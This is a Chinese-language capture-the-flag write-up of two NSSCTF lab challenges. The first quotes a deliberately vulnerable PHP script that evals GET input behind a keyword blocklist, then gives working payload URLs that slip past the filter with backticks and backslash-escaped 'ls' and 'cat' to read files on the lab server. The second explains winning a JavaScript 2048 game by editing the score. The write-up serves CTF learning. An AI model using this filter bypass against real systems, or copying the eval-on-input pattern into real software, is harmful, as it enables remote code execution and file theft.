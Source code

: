 ## [UUCTF 2022 新生赛]ez_rce
>url:https://www.nssctf.cn/problem/3090
>知识点：RCE

```php
居然都不输入参数，可恶!!!!!!!!!

<?php
## 放弃把，小伙子，你真的不会RCE,何必在此纠结呢？？？？？？？？？？？？
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){
        echo '看看你输入的参数！！！不叫样子！！';echo '<br>';
        eval($code);
    }
    else{
        die("你想干什么？？？？？？？？？");
    }
}
else{
    echo "居然都不输入参数，可恶!!!!!!!!!";
    show_source(__FILE__);
}

```
这里将许多东西过滤掉了，比如system和pasthruh
看了一下别人的wp，还可以用printf，而且\也没有被过滤
构造payload
```
http://node5.anna.nssctf.cn:20716//?code=printf(`l\s /`);
```
注意这里是" ` " 不是" ' ",传入分号是因为code是作为一条php语句执行的
![alt text](image-163.png)
用同样的方法cat flag
```
http://node5.anna.nssctf.cn:20716//?code=printf(`c\at /fffffffffflagafag`);
```

![alt text](image-164.png)

## [HNCTF 2022 Week1]2048
>url:https://www.nssctf.cn/problem/2898
>知识点：js

![alt text](image-171.png)
打开是一个游戏界面
![alt text](image-172.png)
在js里找到了游戏结束时会输出一段字符串
方法1：下断点，并在控制台里给this.score赋值20000；
方法2：直接放进随波逐流里面
![alt text](image-173.png)

